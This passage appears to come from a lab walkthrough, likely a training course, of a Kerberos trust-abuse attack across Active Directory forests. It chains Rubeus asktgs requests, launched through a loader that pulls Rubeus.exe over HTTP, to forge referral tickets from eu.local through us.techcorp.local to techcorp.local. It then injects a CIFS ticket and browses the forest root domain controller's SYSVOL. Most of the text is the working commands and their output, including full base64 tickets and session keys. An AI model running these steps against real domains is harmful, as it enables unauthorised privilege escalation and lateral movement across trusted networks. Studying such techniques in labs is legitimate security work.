cJsFq/6A4en4QWdovY80EePww/VpJnViaWtJvbbcHpuHlm2YEN8q3PwzLZk2HPFc6QAOs1exSU87kwOuSnwP39X4FEmsWTxH4emMO9MOIOGmCg+CdmJcEKVK6nx/E8D7Xm2PmHIQFNG74bP85bUmXYnTGMrxWzCRAIpsyTmH0LaOB8jCB76ADAgEAooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIGl+pptDLqoqdPaNR/A1nUsOEJdN6aprhiZo0BwPa8xVoQobCEVVLkxPQ0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQOAAAKQRGA8yMDI1MDQyOTEzNDgyN1qlERgPMjAyNTA0MjkxMzQ4MjdaphEYDzIwMjUwNDI5MjM0ODI3WqcRGA8yMDI1MDUwNjEzNDgyN1qoChsIRVUuTE9DQUypHTAboAMCAQKhFDASGwZrcmJ0Z3QbCGV1LmxvY2Fs

[SNIP]

[*] Action: Ask TGS

[SNIP]

[*] base64(ticket.kirbi):

doIFUTCCBU2gAwIBBaEDAgEWooIEVDCCBFBhggRMMIIESKADAgEFoQobCEVVLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCBAswggQHoAMCARKiggP+BIID+pLPGpQKv5lnk76v38RKlN8VDEnpbHLBnmEyMMu6ySvXVNcPh9QhFHAoGOsKql2tUGMH7XTKse8+dsRzpoTySOcB8sE1FCoNj580r+nuT7rhYyY38hxmAoKu+AqtCWy3BEPkmUpQqseUob7YR4s2Axx3Mnv0WlP3nK+DaPyrAUCxkqw3QYGgrz/pbF1uAN2fQhGhqgjUDIlJxr6lTlCzdqXb6wfnCzXSdf6XWpHE8MZiRIekMnQk9mB28xEiNeTOpoidPnKBnFWkrEwWZhp6V3hnYG2xHjX2CwFfTf8WxkYXavHd7IyyB4qvfS82Jxkzp1r7Wwq1pXlzDUrOxbsx92z12aCd7z72erakTCXWiuhzndRkjDmG+aTr/sS08Ctp231ea7Py21yW+6+CSpOpLK1nE7HB2yCEqf6dmXDVBwBCk5HQayxkh1oTNka/Yk1DK5ri9994DZngOf9V2/gJkvPOpbZhMiKTl+cX6pDAJwznR+NxTEAjVTQO6NPWl9p0YsYHC+t9FwzbliO51MLwiVGqjpzhgBg2hBTES81XVQa9009jjqXghlSDwk6/QEZPbvleZvixx8I13kWaLgFyptZtcAYQKfyctiZD7kILKVH3xbiEOZs9QvVsdiN5kG/Qskve1L4IpyRfCyUUYP6g82cTA/+ZpmUFNLrxO+JParUGPcYQX7XGLZ3TAZiqajqTM+53QZS+mHJXEOWwBswoqqXMLHadmYeyCBOJgmu602Ea7uh2nLLI97TcgodR0YfIklK2w7I2HaEuQ8zP11KxpN1OUnMJrKxdDYtms0NJOKTsbVOxNvGtVsdiMcLe8Znn71IRfeHvYrBFTr/UIzhMJykNeuW+WLgcV/Hch+yONorLPg44j1dOx2nGA3g0mbrbJm/CSpCvwJX6WzrMOBAugL8zF3KBNGRq8BuLzr2iTvWd8mzzM5GlMv08PUNzk02MmLQPJAIG4GnWX6YK4KAY2ztPoDPE2smlejDJpDEa2ZkCxIoWaBUQFSiGWDLznSvAXfTWGaLsQLsLlogTYTveViYvmRBaMQmihyqruB8gZkEWf5VSPbE1FckJogjLa900YR2PPxZFA45Ig+CgH1e+FVkR+6GseKb/cXwhzb3mjsDiYoES32YBNpwnUfdkprszgrA9w4ysgBqvtnKOv3nlXc8SsR1d2FyMKVnRI5WtLPPRu00M/Ut9BPXvI5waVGQ3TaXsXQufhEApdDfZky89IWxvnw8slMGKsc73/VE6G22uGpPB4STqWsdZmOTIkYYM08j/vd3h2iLVFItaeUFtKJoT8gOzg1PMwiRYizMVoSxY5Pn4dMz5AvV0nQGZCVp0UOWdQ7sA9JELVUKjgegwgeWgAwIBAKKB3QSB2n2B1zCB1KCB0TCBzjCBy6ArMCmgAwIBEqEiBCDRoec8VxB98Q6PAjSZDy2yb1KRHK4xpLcPHfIPcPig1qEKGwhFVS5MT0NBTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAEChAAClERgPMjAyNTA0MjkxMzUzMzBaphEYDzIwMjUwNDI5MjM0ODI3WqcRGA8yMDI1MDUwNjEzNDgyN1qoChsIRVUuTE9DQUypJjAkoAMCAQKhHTAbGwZrcmJ0Z3QbEVVTLlRFQ0hDT1JQLkxPQ0FM

[SNIP]

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  EU.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EU.LOCAL
  StartTime                :  4/29/2025 6:53:30 AM
  EndTime                  :  4/29/2025 4:48:27 PM
  RenewTill                :  5/6/2025 6:48:27 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  0aHnPFcQffEOjwI0mQ8tsm9SkRyuMaS3Dx3yD3D4oNY=
```

⚠️ Since the trust isn't transitive, we cannot request a referral from `eu.local` to the forest root `techcorp.local`.

⭐ Instead we can now attempt to create a "local" TGT (service realm is `us.techorp.local`) and then leverage it to gain a referral TGT from `us.techcorp.local` to `techcorp.local` leveraging the child to forest bidirectional trust.

Create a "local" TGT in the `eu-dc` session using the `/targetdomain` parameter as `us.techcorp.local` and the above referral TGT in the `/ticket` parameter.

```
C:\Users\Administrator> echo %Pwn%

asktgs

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:krbtgt/us.techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:doIFUTCCBU2gAwIBBaEDAgEWooIEVDCCBFBhggRMMIIESKADAgEFoQobCEVVLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCBAswggQHoAMCARKiggP+BIID+pLPGpQKv5lnk76v38RKlN8VDEnpbHLBnmEyMMu6ySvXVNcPh9QhFHAoGOsKql2tUGMH7XTKse8+dsRzpoTySOcB8sE1FCoNj580r+nuT7rhYyY38hxmAoKu+AqtCWy3BEPkmUpQqseUob7YR4s2Axx3Mnv0WlP3nK+DaPyrAUCxkqw3QYGgrz/pbF1uAN2fQhGhqgjUDIlJxr6lTlCzdqXb6wfnCzXSdf6XWpHE8MZiRIekMnQk9mB28xEiNeTOpoidPnKBnFWkrEwWZhp6V3hnYG2xHjX2CwFfTf8WxkYXavHd7IyyB4qvfS82Jxkzp1r7Wwq1pXlzDUrOxbsx92z12aCd7z72erakTCXWiuhzndRkjDmG+aTr/sS08Ctp231ea7Py21yW+6+CSpOpLK1nE7HB2yCEqf6dmXDVBwBCk5HQayxkh1oTNka/Yk1DK5ri9994DZngOf9V2/gJkvPOpbZhMiKTl+cX6pDAJwznR+NxTEAjVTQO6NPWl9p0YsYHC+t9FwzbliO51MLwiVGqjpzhgBg2hBTES81XVQa9009jjqXghlSDwk6/QEZPbvleZvixx8I13kWaLgFyptZtcAYQKfyctiZD7kILKVH3xbiEOZs9QvVsdiN5kG/Qskve1L4IpyRfCyUUYP6g82cTA/+ZpmUFNLrxO+JParUGPcYQX7XGLZ3TAZiqajqTM+53QZS+mHJXEOWwBswoqqXMLHadmYeyCBOJgmu602Ea7uh2nLLI97TcgodR0YfIklK2w7I2HaEuQ8zP11KxpN1OUnMJrKxdDYtms0NJOKTsbVOxNvGtVsdiMcLe8Znn71IRfeHvYrBFTr/UIzhMJykNeuW+WLgcV/Hch+yONorLPg44j1dOx2nGA3g0mbrbJm/CSpCvwJX6WzrMOBAugL8zF3KBNGRq8BuLzr2iTvWd8mzzM5GlMv08PUNzk02MmLQPJAIG4GnWX6YK4KAY2ztPoDPE2smlejDJpDEa2ZkCxIoWaBUQFSiGWDLznSvAXfTWGaLsQLsLlogTYTveViYvmRBaMQmihyqruB8gZkEWf5VSPbE1FckJogjLa900YR2PPxZFA45Ig+CgH1e+FVkR+6GseKb/cXwhzb3mjsDiYoES32YBNpwnUfdkprszgrA9w4ysgBqvtnKOv3nlXc8SsR1d2FyMKVnRI5WtLPPRu00M/Ut9BPXvI5waVGQ3TaXsXQufhEApdDfZky89IWxvnw8slMGKsc73/VE6G22uGpPB4STqWsdZmOTIkYYM08j/vd3h2iLVFItaeUFtKJoT8gOzg1PMwiRYizMVoSxY5Pn4dMz5AvV0nQGZCVp0UOWdQ7sA9JELVUKjgegwgeWgAwIBAKKB3QSB2n2B1zCB1KCB0TCBzjCBy6ArMCmgAwIBEqEiBCDRoec8VxB98Q6PAjSZDy2yb1KRHK4xpLcPHfIPcPig1qEKGwhFVS5MT0NBTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAEChAAClERgPMjAyNTA0MjkxMzUzMzBaphEYDzIwMjUwNDI5MjM0ODI3WqcRGA8yMDI1MDUwNjEzNDgyN1qoChsIRVUuTE9DQUypJjAkoAMCAQKhHTAbGwZrcmJ0Z3QbEVVTLlRFQ0hDT1JQLkxPQ0FM

[SNIP]

[*] Action: Ask TGS

[SNIP]

[*] base64(ticket.kirbi):
      doIFaDCCBWSgAwIBBaEDAgEWooIEYjCCBF5hggRaMIIEVqADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxF1cy50ZWNoY29ycC5sb2NhbKOCBBAwggQMoAMCARKhAwIBAqKCA/4EggP6hVdeLt0n2yPGz9GppybsmqG8wIjireXr9GN1vuDWK9HFkELtSyxlgBcgC27BqvsWcQplA29jQZemyZe5y3t7vmMoXQv4YbkSvOH6BSkKmaG/UVd3xPF1dguUcAtMvMP5BbrTh/j03NsohiuCrBh15LGYyRj8Yd6Aqis0MsRg+saWBFiLNi9kZOZeujIL1ogLKAe7TYd3Ogdz7IlfdC08O5cNB/zAdIJIWfFNBtzsBZNKCR/sNqdwI3UoeeqxSIQ2qsMHvOOwGk7bvkDuUHptzX16emPMuilXF67LXpefCv1GALhrjCgnFSdawYW0CWGSJ8WqOqsSfU+gVTlpcDbkaLnGTgTiLXRyAotYR7DnuQw8ACpyzYwfJa8yIRilaeyNt7Xq8SExK56BJ3A1EMnDPsBgqMPHsMXgP2VQgUCGPZ27OmDyHfK6hK+dweNz0plhXAohn+k5GElwSYFwFdaUzxmBKDVa5Thne6QC80WajR9xF3n/6RGY9tlF1PRnyXJ0maE7LUT6fO3MsZCmx0zkBsfSztjpNHisA9l/rPOkUn8OkMRxoF846KpSQYPkC5GngwN3oMC21czNzFevchNI6XxlMZ8IxbrmckpOOyQ//SXFYX8eQsQ08Pu8svZC7ajKlWeGlZH/3MiarE4cc2qa1SlOYbZJroqz2hRtvlXJnVItXPMFlUY68qYEXBg2vfdHgi4v0LWVwQQubLY+VddtpaGS4sGF3db4s/GHhtPgAbkNN0Fg3ZyM5HzX5NldLZSbwMDCiEWdDnSvFWttkOZjAF/PkcGJBVFREWD9t/GJNJCT6RU/mQxe6jBIHjTuibhqzZxggvJ+NaQ/RtDAIcUYqLAkJ+Bu8PbNBENpflxAlU+IpuqmmievwsT9lGzWeriTeNybrB2BG1i3dqSfIKP5/y+X1OuFdG8XGhVN1NgURnLEYvQoEKCpxLGxERTTEf+Ea8XD4qfGYD7vK6VM4kvm/HV/zluusXOc4mPYdAwyaiRvmjjkU02MZ8fXE6yhfEejvhPGCri36oegDp9v1ZUuV9QPvqpns+DPRG0bfV2p7TIgCnmcymVWfba4CGoQlkplQaKyY/jZc8uaVb09JoShUh5BBs3wm8K+yBLPxCuBOA+vUDaVVMHVgp67fDGN+F1cLHaf9jb504RTSBHQxe12dz4lJY4kgt0JBNW5JLvFtTRDHnFR01GRnvhhIiN/RZtRVnrTznjtk09igFZN91N1IicAgwU5ATcoNxPnji6jL9V0MYyXKAQr5woxjvS3RXRYqfcpHWb7BjwDJtz6wSqSpgYAhvyvnxBMntHi2UKk/xec7uTKC+iLwgPrr2LW9fdQ0zNRVdsEdHSADaOB8TCB7qADAgEAooHmBIHjfYHgMIHdoIHaMIHXMIHUoCswKaADAgESoSIEIFr5vgVVauIeSXWShAKom2SHUwLvfiPA0ig7j7FT4Pd5oQobCEVVLkxPQ0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKEAAKURGA8yMDI1MDQyOTE0MDEzN1qmERgPMjAyNTA0MjkyMzQ4MjdapxEYDzIwMjUwNTA2MTM0ODI3WqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRdXMudGVjaGNvcnAubG9jYWw=

[SNIP]

  ServiceName              :  krbtgt/us.techcorp.local
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EU.LOCAL
  StartTime                :  4/29/2025 7:01:37 AM
  EndTime                  :  4/29/2025 4:48:27 PM
  RenewTill                :  5/6/2025 6:48:27 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Wvm+BVVq4h5JdZKEAqibZIdTAu9+I8DSKDuPsVPg93k=
```

We can now finally request a referral TGT in the `eu-dc` session for `techcorp.local` from `us.techcorp.local` abusing the child to forest bidirectional trust.
Note to use the above "local" TGT in the following `/ticket` parameter.

```
C:\Users\Administrator> echo %Pwn%

asktgs

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:krbtgt/techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:doIFaDCCBWSgAwIBBaEDAgEWooIEYjCCBF5hggRaMIIEVqADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxF1cy50ZWNoY29ycC5sb2NhbKOCBBAwggQMoAMCARKhAwIBAqKCA/4EggP6hVdeLt0n2yPGz9GppybsmqG8wIjireXr9GN1vuDWK9HFkELtSyxlgBcgC27BqvsWcQplA29jQZemyZe5y3t7vmMoXQv4YbkSvOH6BSkKmaG/UVd3xPF1dguUcAtMvMP5BbrTh/j03NsohiuCrBh15LGYyRj8Yd6Aqis0MsRg+saWBFiLNi9kZOZeujIL1ogLKAe7TYd3Ogdz7IlfdC08O5cNB/zAdIJIWfFNBtzsBZNKCR/sNqdwI3UoeeqxSIQ2qsMHvOOwGk7bvkDuUHptzX16emPMuilXF67LXpefCv1GALhrjCgnFSdawYW0CWGSJ8WqOqsSfU+gVTlpcDbkaLnGTgTiLXRyAotYR7DnuQw8ACpyzYwfJa8yIRilaeyNt7Xq8SExK56BJ3A1EMnDPsBgqMPHsMXgP2VQgUCGPZ27OmDyHfK6hK+dweNz0plhXAohn+k5GElwSYFwFdaUzxmBKDVa5Thne6QC80WajR9xF3n/6RGY9tlF1PRnyXJ0maE7LUT6fO3MsZCmx0zkBsfSztjpNHisA9l/rPOkUn8OkMRxoF846KpSQYPkC5GngwN3oMC21czNzFevchNI6XxlMZ8IxbrmckpOOyQ//SXFYX8eQsQ08Pu8svZC7ajKlWeGlZH/3MiarE4cc2qa1SlOYbZJroqz2hRtvlXJnVItXPMFlUY68qYEXBg2vfdHgi4v0LWVwQQubLY+VddtpaGS4sGF3db4s/GHhtPgAbkNN0Fg3ZyM5HzX5NldLZSbwMDCiEWdDnSvFWttkOZjAF/PkcGJBVFREWD9t/GJNJCT6RU/mQxe6jBIHjTuibhqzZxggvJ+NaQ/RtDAIcUYqLAkJ+Bu8PbNBENpflxAlU+IpuqmmievwsT9lGzWeriTeNybrB2BG1i3dqSfIKP5/y+X1OuFdG8XGhVN1NgURnLEYvQoEKCpxLGxERTTEf+Ea8XD4qfGYD7vK6VM4kvm/HV/zluusXOc4mPYdAwyaiRvmjjkU02MZ8fXE6yhfEejvhPGCri36oegDp9v1ZUuV9QPvqpns+DPRG0bfV2p7TIgCnmcymVWfba4CGoQlkplQaKyY/jZc8uaVb09JoShUh5BBs3wm8K+yBLPxCuBOA+vUDaVVMHVgp67fDGN+F1cLHaf9jb504RTSBHQxe12dz4lJY4kgt0JBNW5JLvFtTRDHnFR01GRnvhhIiN/RZtRVnrTznjtk09igFZN91N1IicAgwU5ATcoNxPnji6jL9V0MYyXKAQr5woxjvS3RXRYqfcpHWb7BjwDJtz6wSqSpgYAhvyvnxBMntHi2UKk/xec7uTKC+iLwgPrr2LW9fdQ0zNRVdsEdHSADaOB8TCB7qADAgEAooHmBIHjfYHgMIHdoIHaMIHXMIHUoCswKaADAgESoSIEIFr5vgVVauIeSXWShAKom2SHUwLvfiPA0ig7j7FT4Pd5oQobCEVVLkxPQ0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKEAAKURGA8yMDI1MDQyOTE0MDEzN1qmERgPMjAyNTA0MjkyMzQ4MjdapxEYDzIwMjUwNTA2MTM0ODI3WqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRdXMudGVjaGNvcnAubG9jYWw=

[SNIP]

[*] Action: Ask TGS

[SNIP]

[*] base64(ticket.kirbi):

doIFczCCBW+gAwIBBaEDAgEWooIEcDCCBGxhggRoMIIEZKADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTKOCBCEwggQdoAMCARKhAwIBEqKCBA8EggQLx7L8hvcARK6UZvK5klgy5hjWnBcHJNpp7UqmoKl2Twf/S1MYsK0MFJ8rODFcTkCAz6AMAUV1X/U+7GBsBMhYTiYx1sCuFnGBXwZnacp4aTKKkFgzB9aTr78oGbuyytei5k79zXo/JWSG7jxMeI4nCN09axnEY+yZGoIbpdEmfCW1tecLbVaTyGq1jikh257QiNxASGfHE/lBLEV3zJjgIjtNKRDbkwEMkaN79+6H3dOGURroaE+eHQXi01aSdDv2byshQb6I5IssuijxFK+z+mkDN/REVeXOE2w1zqj5oMOKx6S+IFjWi5u2mfiU6UsQ5/w2QRHkF4LJhWazq0/Sqn4fgcqUvBnq/RyGg8W/AJdTsnB08VmUaIP9Lvve7MKfGB68607SENJkv/hQ/kIS7CMQWFLBxtRkiDdyFrYW7VhzqbWPRP3AXVI8+Ya6Zh5+lacQCIRizQTn5pzy9xFEmB0yLjvl8BuaRPzb/EEfZgatc1zs0jVYpoZXYvAAMsqFH/zi+stH9HsNtypti/1qTbdtvTAJRY4kuvzQUeyLyNVN4NjTJte0AK65PnB9ofrw5+RBtGFS0vzTOyZYc8Qed6yiol2cS0PCD1wROXjQ053ssF8KiZOgEmJeZlviOWoQTiiTqtoXo0UskLK8mCqQMySGyn+I2OxJM4mckj8DRKJPEyBVWtnMvdfbP0R3ZPIxGX3bQAxh/Z2OcLB0Mq8Vh57SswRtpSjRx1JzIw45Fv8BbF6st6jyp2HM2y3/WY6QgblkgPSp5EWZFzm8LJB0rfWdeME8Hf/ghAVcCsXF9ZVJKyATLCB2s1A8tYe6wXNDdHbTYNHSmfRWHfqUI6RNBQOhYchBEmV4XkjGYzLQC+33VOgK6/ghTF1MtYGKC2CDIUjz4N4RxBRYV9fuAHn/D6zOAls3Xwn/KJCl4DDHecxyGy45EkasN5q5izuiaDHj5ls/G76dXo2f+xdBpkOjoTDMls4jsgq+n482SUHhrIH1tnQVN44JElpD2YR5ftwO+EIdpif34YkInWxib7MbsqNt7MbD9BcwXdLdwJ/Luhh8UR1k3GNqcbMPUpY2ZVeIsc4jQ6dfhEViWwOzPYXQ7KWmiz7cp50bMJSTYd5mvPSw6/A7pWucgnmNNVPbixNv/eqnk7spEIxEHgyObTDdT1DiUYTWg1hCmXSnGvCpLtoh6Q3T0Vew+SGJz2SvgMlHmBrmZrm3ywOaZYlEbNLCZl7IiU+AAXm01l4U+CdsmKlWVg3NfL6swU5vNgi9kz5hGOhMp9Byk6xCbiymkqmSF25BqIFr+9rqZkF5B2RSSduqttRvJj9J9fKy+T1NyfoFwBGbw1Ur0Y3JR5AZsQPRuHoDecaDTR8mNEIqo4HuMIHroAMCAQCigeMEgeB9gd0wgdqggdcwgdQwgdGgKzApoAMCARKhIgQgXmT76284ZIOASZOVUwKSk5HoQBJL4P/69rkq5XjEp8+hChsIRVUuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBApQAApREYDzIwMjUwNDI5MTQwMjQ2WqYRGA8yMDI1MDQyOTIzNDgyN1qnERgPMjAyNTA1MDYxMzQ4MjdaqBMbEVVTLlRFQ0hDT1JQLkxPQ0FMqSMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTA==

[SNIP]

  ServiceName              :  krbtgt/TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EU.LOCAL
  StartTime                :  4/29/2025 7:02:46 AM
  EndTime                  :  4/29/2025 4:48:27 PM
  RenewTill                :  5/6/2025 6:48:27 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  XmT76284ZIOASZOVUwKSk5HoQBJL4P/69rkq5XjEp88=
```

Finally, request a usable TGS in the `eu-dc` session to gain access onto any target service (CIFS in this case) on `techcorp.local`.
Use the above child to forest referral TGT in the `/ticket` parameter.

```
C:\Users\Administrator> echo %Pwn%

asktgs

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:CIFS/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /nowrap /ptt /ticket:doIFczCCBW+gAwIBBaEDAgEWooIEcDCCBGxhggRoMIIEZKADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTKOCBCEwggQdoAMCARKhAwIBEqKCBA8EggQLx7L8hvcARK6UZvK5klgy5hjWnBcHJNpp7UqmoKl2Twf/S1MYsK0MFJ8rODFcTkCAz6AMAUV1X/U+7GBsBMhYTiYx1sCuFnGBXwZnacp4aTKKkFgzB9aTr78oGbuyytei5k79zXo/JWSG7jxMeI4nCN09axnEY+yZGoIbpdEmfCW1tecLbVaTyGq1jikh257QiNxASGfHE/lBLEV3zJjgIjtNKRDbkwEMkaN79+6H3dOGURroaE+eHQXi01aSdDv2byshQb6I5IssuijxFK+z+mkDN/REVeXOE2w1zqj5oMOKx6S+IFjWi5u2mfiU6UsQ5/w2QRHkF4LJhWazq0/Sqn4fgcqUvBnq/RyGg8W/AJdTsnB08VmUaIP9Lvve7MKfGB68607SENJkv/hQ/kIS7CMQWFLBxtRkiDdyFrYW7VhzqbWPRP3AXVI8+Ya6Zh5+lacQCIRizQTn5pzy9xFEmB0yLjvl8BuaRPzb/EEfZgatc1zs0jVYpoZXYvAAMsqFH/zi+stH9HsNtypti/1qTbdtvTAJRY4kuvzQUeyLyNVN4NjTJte0AK65PnB9ofrw5+RBtGFS0vzTOyZYc8Qed6yiol2cS0PCD1wROXjQ053ssF8KiZOgEmJeZlviOWoQTiiTqtoXo0UskLK8mCqQMySGyn+I2OxJM4mckj8DRKJPEyBVWtnMvdfbP0R3ZPIxGX3bQAxh/Z2OcLB0Mq8Vh57SswRtpSjRx1JzIw45Fv8BbF6st6jyp2HM2y3/WY6QgblkgPSp5EWZFzm8LJB0rfWdeME8Hf/ghAVcCsXF9ZVJKyATLCB2s1A8tYe6wXNDdHbTYNHSmfRWHfqUI6RNBQOhYchBEmV4XkjGYzLQC+33VOgK6/ghTF1MtYGKC2CDIUjz4N4RxBRYV9fuAHn/D6zOAls3Xwn/KJCl4DDHecxyGy45EkasN5q5izuiaDHj5ls/G76dXo2f+xdBpkOjoTDMls4jsgq+n482SUHhrIH1tnQVN44JElpD2YR5ftwO+EIdpif34YkInWxib7MbsqNt7MbD9BcwXdLdwJ/Luhh8UR1k3GNqcbMPUpY2ZVeIsc4jQ6dfhEViWwOzPYXQ7KWmiz7cp50bMJSTYd5mvPSw6/A7pWucgnmNNVPbixNv/eqnk7spEIxEHgyObTDdT1DiUYTWg1hCmXSnGvCpLtoh6Q3T0Vew+SGJz2SvgMlHmBrmZrm3ywOaZYlEbNLCZl7IiU+AAXm01l4U+CdsmKlWVg3NfL6swU5vNgi9kz5hGOhMp9Byk6xCbiymkqmSF25BqIFr+9rqZkF5B2RSSduqttRvJj9J9fKy+T1NyfoFwBGbw1Ur0Y3JR5AZsQPRuHoDecaDTR8mNEIqo4HuMIHroAMCAQCigeMEgeB9gd0wgdqggdcwgdQwgdGgKzApoAMCARKhIgQgXmT76284ZIOASZOVUwKSk5HoQBJL4P/69rkq5XjEp8+hChsIRVUuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBApQAApREYDzIwMjUwNDI5MTQwMjQ2WqYRGA8yMDI1MDQyOTIzNDgyN1qnERgPMjAyNTA1MDYxMzQ4MjdaqBMbEVVTLlRFQ0hDT1JQLkxPQ0FMqSMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTA==

[SNIP]

[*] Action: Ask TGS

[SNIP]

  ServiceName              :  CIFS/techcorp-dc.techcorp.local
  ServiceRealm             :  TECHCORP.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EU.LOCAL
  StartTime                :  4/29/2025 7:03:35 AM
  EndTime                  :  4/29/2025 4:48:27 PM
  RenewTill                :  5/6/2025 6:48:27 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  aPnHaP8298NmNA477QbBIlbDePlcFBkW9+ChVx1yalA=
```

```
C:\Users\Administrator> klist

[SNIP]

Cached Tickets: (2) 🎟️

[SNIP]

#1>     Client: Administrator 🎭 @ EU.LOCAL 🏛️
        Server: CIFS 📌/techcorp-dc.techcorp.local @ TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/29/2025 7:03:35 (local)
        End Time:   4/29/2025 16:48:27 (local)
        Renew Time: 5/6/2025 6:48:27 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Access the file system on `techcorp-dc` from `eu-dc` using domain user privileges to complete the objective.

```
C:\Users\Administrator> dir \\techcorp-dc.techcorp.local\SYSVOL

 Directory of \\techcorp-dc.techcorp.local\SYSVOL 📁

07/04/2019  02:51 AM    <DIR>          .
07/04/2019  02:51 AM    <DIR>          ..
07/04/2019  02:51 AM    <JUNCTION>     techcorp.local [C:\Windows\SYSVOL\domain]
               0 File(s)              0 bytes
               3 Dir(s)  11,210,002,432 bytes free
```

---
---
